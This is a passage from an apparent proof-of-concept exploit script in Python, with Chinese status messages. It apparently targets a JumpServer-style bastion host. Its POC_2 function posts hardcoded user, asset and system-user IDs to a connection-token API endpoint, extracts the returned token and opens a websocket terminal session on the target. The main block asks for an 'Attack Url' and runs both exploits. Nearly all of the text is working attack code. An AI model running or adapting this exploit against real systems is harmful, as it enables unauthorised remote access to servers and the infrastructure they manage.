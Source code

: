 ```python
    else:
        print("\033[31m[x] 目标漏洞已修复，无法获取敏感日志信息\033[0m")
        sys.exit(0)


def POC_2(target_url, user, asset, system_user):
    if target_url == "" or asset == "" or system_user == "":
        print("\033[31m[x] 请获取 assset 等参数配置\033[0m")
        sys.exit(0)
    data = {"user": user, "asset": asset, "system_user": system_user}
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    # vuln_url = target_url + "/api/v1/authentication/connection-token/?user-only=1"

    try:
        response = requests.post(vuln_url, json=data, timeout=5).json()
        print("\033[32m[o] 正在请求：{}\033[0m".format(vuln_url))
        token = response['token']
        print("\033[36m[o] 成功获取Token：{}\033[0m".format(token))
        ws_url = target_url.strip("http://")
        ws_url = "ws://" + ws_url + "/koko/ws/token/?target_id={}".format(token)
        asyncio.get_event_loop().run_until_complete(main_logic(ws_url))

    except Exception as e:
        print("\033[31m[x] 请检查 assset 等参数配置,{}\033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    user = "7c30bef8-61e2-4644-bf90-f7cacd1936f8"
    asset = "2bb3df36-8e63-4ace-9f8f-c77e95ffc549"
    system_user = "abd00340-e9ba-40af-a432-9a85f867b6bb"
    POC_1(target_url)
    POC_2(target_url, user, asset, system_user)
```

![](image/jump-19.png)
